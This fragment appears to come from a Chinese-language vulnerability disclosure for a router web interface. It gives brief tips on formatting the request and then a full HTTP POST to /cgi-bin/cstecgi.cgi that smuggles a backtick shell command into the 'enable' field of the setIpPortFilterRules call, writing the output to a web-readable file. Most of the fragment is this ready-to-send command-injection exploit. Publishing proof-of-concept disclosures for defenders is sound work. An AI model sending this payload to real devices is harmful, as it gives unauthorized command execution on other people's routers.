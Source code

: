 这个得自己调整格式，要补上`"mode":"1"`，然后把addEffect调到enable前面:

```
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{
"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```

![image-20241029112613527](./X6000R/images/image-20241029112613527.png)
